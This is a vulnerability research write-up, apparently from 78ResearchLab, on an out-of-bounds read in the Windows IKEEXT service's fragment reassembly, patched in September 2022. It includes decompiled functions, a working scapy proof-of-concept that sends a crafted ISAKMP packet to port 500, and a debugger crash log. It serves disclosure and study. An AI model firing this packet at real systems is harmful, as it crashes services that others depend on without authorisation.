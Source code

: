 # Introduction

---

The 3 vulnerabilities related to IKE Extension was patched on Patch Tuesday in September 2022.

One of the vulnerabilities was found during IKE related research, which was patched by Yuki Chen.

# Root Cause Analysis

---

This vulnerability occurs when processing `Fragmentation Payload` inside the `IkeHandlePayloadFrag` function.

```cpp
__int64 __fastcall IkeHandlePayloadFrag(__int64 a1, __int64 a2)
{
  LPVOID TlsData; // rax
  __int64 v5; // rbx
  __int64 *v6; // rax
  __int64 v7; // r9
  __int64 v8; // rbx
  __int64 v10; // [rsp+50h] [rbp+18h] BYREF

  v10 = 0i64;
  if...
  v8 = IkeProcessFrag((struct_lpMem *)a1, &v10, (struct_SA *)a2);
  if ( v8 || (v8 = IkePostPayloadProcessFrag(a2, v10, a1)) != 0 )
    WfpReportError(v8, "IkeHandlePayloadFrag");
  return v8;
}
```

In `IkeProcessFrag` function, `FragEntry` is created and `Frag` is inserted to `FragEntry` by `IkePostPayloadProcessFrag` function.

If last `Frag` is inserted in `IkeInsertFragEntry` function, `IkeReinjectReassembledPacket` function is called.

```cpp
__int64 __fastcall IkeInsertFragEntry(__int64 a1, __int64 a2, __int64 a3, __int128 *a4, __int64 a5)
{
	...
	...
    if ( (unsigned int)IsFullPacket((_QWORD *)a3, a5) )
      IkeReinjectReassembledPacket((__int64 **)a3, a2, a4, a5);
    return v7;
  ...
	...
}
```

In this function, all `Frag` in `FragEntry` are merged to one buffer and then call `IkeQueueRecvRequest` function.

```cpp
__int64 __fastcall IkeReinjectReassembledPacket(__int64 **a1, __int64 a2, __int128 *a3, __int64 a4)
{
	...
	... 
   while ( v22 != (__int64 *)a1 )
    {
      v9 = WfpUINT32Add(v8, *((_DWORD *)v22 + 6), &v35);
      if ( v9 )
        goto LABEL_9;
      memcpy_0(&v23[v8], (const void *)v22[4], *((unsigned int *)v22 + 6));
      v8 += *((_DWORD *)v22 + 6);
      v22 = (__int64 *)*v22;
    }
	...
	...
    v9 = IkeQueueRecvRequest((struct_lpMem *)v27, 1);
	...
	...
}
```

In `IkeQueueRecvRequest` function, the vulnerability occurs in processing the merged buffer.

```cpp
__int64 __fastcall IkeQueueRecvRequest(struct_lpMem *a1, int a2)
{
	...
	...

		p_buffer = &v5->buffer;
		...
		...
    v4 = WfpMemAlloc(*(unsigned int *)a1->bufferSize, 0, &v5->buffer); ----> [1]
    if ( !v4 )
    {
			if ( v13 == htons(0x1F4u) || a2 )
      {
        memcpy_0(*p_buffer, a1->buffer, *(unsigned int *)a1->bufferSize); ---->[2]
      }
      else
      {
        memcpy_0(*p_buffer, &a1->buffer->initiator_spi_4, (unsigned int)(*(_DWORD *)a1->bufferSize - 4));
        *(_DWORD *)v5->bufferSize -= 4;
      }
      v7 = *(_QWORD *)&(*p_buffer)->next_payload;   -------------------------->[3]
      length = (*p_buffer)->length;
      *(_OWORD *)v15 = *(_OWORD *)&(*p_buffer)->initiator_spi_0;
      LODWORD(v15[3]) = length;
			...
			...
		}
	...
	...
}
```

In [1], it allocates memory in &v5->buffer , which the size is buffer’s size by WfpMemAlloc function.

In [2], it copies merged buffer to buffer which is allocated in [1]

In [3], it accesses data from the buffer which is made by [1] and [2]

The vulnerability occurs in [1] because there is no verification of the small size.

After we allocate memory to 0 sized at [1], the vulnerability occurs while accessing more memory than the allocated size at [3].

# PoC

---

To trigger this vulnerability, page heap of svchost.exe(IKEEXT service) must be enabled.

```python
from scapy.all import *
from scapy.contrib.ikev2 import *
from scapy.layers.isakmp import *
import socket, time

target = ("192.168.159.134", 500)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

pkt = ISAKMP(init_cookie=RandString(8), next_payload=0x84, exch_type=0xf3)
pkt /= ISAKMP_payload(next_payload=0x1, load=b"\x00\x00\x01\x7f")

sock.sendto(raw(pkt), target)
```

[2022-09-20 10-14-30_Trim.mp4](src/2022-09-20_10-14-30_Trim.mp4)

# Crash Log

---

```cpp
(128.414): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
ikeext!IkeQueueRecvRequest+0x158:
00007ffb`9e48d138 0f1000          movups  xmm0,xmmword ptr [rax] ds:0000017a`08459000=????????????????????????????????

0:005> r
rax=0000017a08459000 rbx=0000000000000000 rcx=00000008905fef70
rdx=ffffffffffffc000 rsi=00000008905feff0 rdi=0000017a08456f10
rip=00007ffb9e48d138 rsp=00000008905fef30 rbp=00000008905fefa0
 r8=0000000000000000  r9=0000000000000000 r10=0000017a08459000
r11=0000017a08459000 r12=0000000000000000 r13=0000017a0843cb80
r14=0000017a08456f20 r15=0000000000000001
iopl=0         nv up ei pl zr na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
ikeext!IkeQueueRecvRequest+0x158:
00007ffb`9e48d138 0f1000          movups  xmm0,xmmword ptr [rax] ds:0000017a`08459000=????????????????????????????????

0:005> !heap -p -a @rax
    address 0000017a08459000 found in
    _DPH_HEAP_ROOT @ 17a08281000
    in busy allocation (  DPH_HEAP_BLOCK:         UserAddr         UserSize -         VirtAddr         VirtSize)
                             17a08285a28:      17a08459000                0 -      17a08458000             2000
ReadMemory error for address 0000017a08459000
    00007ffbc8177e7f ntdll!RtlDebugAllocateHeap+0x000000000000003f
    00007ffbc811e1fa ntdll!RtlpAllocateHeap+0x000000000009c70a
    00007ffbc807fcad ntdll!RtlpAllocateHeapInternal+0x000000000000098d
    00007ffb9e486910 ikeext!WfpMemAlloc+0x0000000000000020
    00007ffb9e48d0ce ikeext!IkeQueueRecvRequest+0x00000000000000ee
    00007ffb9e4f1c0d ikeext!IkeReinjectReassembledPacket+0x0000000000000181
    00007ffb9e4f17ed ikeext!IkeInsertFragEntry+0x0000000000000259
    00007ffb9e4f1865 ikeext!IkePostPayloadProcessFrag+0x0000000000000031
    00007ffb9e4f1564 ikeext!IkeHandlePayloadFrag+0x00000000000000ac
    00007ffb9e507652 ikeext!IkeHandleMMPacketDispatchAuthip+0x000000000000005e
    00007ffb9e4ead86 ikeext!IkeProcessPacket+0x00000000000002f2
    00007ffb9e47fc84 ikeext!IkeProcessPacketDispatch+0x0000000000000fd4
    00007ffb9e47bb9c ikeext!IkeHandleRecvRequest+0x000000000000000c
    00007ffbc809e7e9 ntdll!TppSimplepExecuteCallback+0x0000000000000099
    00007ffbc8086964 ntdll!TppWorkerThread+0x0000000000000644
    00007ffbc7cc7974 KERNEL32!BaseThreadInitThunk+0x0000000000000014
    00007ffbc80ca2f1 ntdll!RtlUserThreadStart+0x0000000000000021

 
0:005> dq @rax
0000017a`08459000  ????????`???????? ????????`????????
0000017a`08459010  ????????`???????? ????????`????????
0000017a`08459020  ????????`???????? ????????`????????
0000017a`08459030  ????????`???????? ????????`????????
0000017a`08459040  ????????`???????? ????????`????????
0000017a`08459050  ????????`???????? ????????`????????
0000017a`08459060  ????????`???????? ????????`????????
0000017a`08459070  ????????`???????? ????????`????????

0:005> k
 # Child-SP          RetAddr               Call Site
00 00000008`905fef30 00007ffb`9e4f1c0d     ikeext!IkeQueueRecvRequest+0x158
01 00000008`905fefd0 00007ffb`9e4f17ed     ikeext!IkeReinjectReassembledPacket+0x181
02 00000008`905ff110 00007ffb`9e4f1865     ikeext!IkeInsertFragEntry+0x259
03 00000008`905ff180 00007ffb`9e4f1564     ikeext!IkePostPayloadProcessFrag+0x31
04 00000008`905ff1c0 00007ffb`9e507652     ikeext!IkeHandlePayloadFrag+0xac
05 00000008`905ff200 00007ffb`9e4ead86     ikeext!IkeHandleMMPacketDispatchAuthip+0x5e
06 00000008`905ff230 00007ffb`9e47fc84     ikeext!IkeProcessPacket+0x2f2
07 00000008`905ff2f0 00007ffb`9e47bb9c     ikeext!IkeProcessPacketDispatch+0xfd4
08 00000008`905ff850 00007ffb`c809e7e9     ikeext!IkeHandleRecvRequest+0xc
09 00000008`905ff880 00007ffb`c8086964     ntdll!TppSimplepExecuteCallback+0x99
0a 00000008`905ff8d0 00007ffb`c7cc7974     ntdll!TppWorkerThread+0x644
0b 00000008`905ffbc0 00007ffb`c80ca2f1     KERNEL32!BaseThreadInitThunk+0x14
0c 00000008`905ffbf0 00000000`00000000     ntdll!RtlUserThreadStart+0x21
```

78ResearchLab(https://www.78researchlab.com) performs Vulnerability Research not only Windows/Linux, but also browsers, various applications, Mobile, Embedded Devices and Web3. If you would like to collaborate or enjoy your research together, please contact us at contact@78researchlab.com.

Thank you.
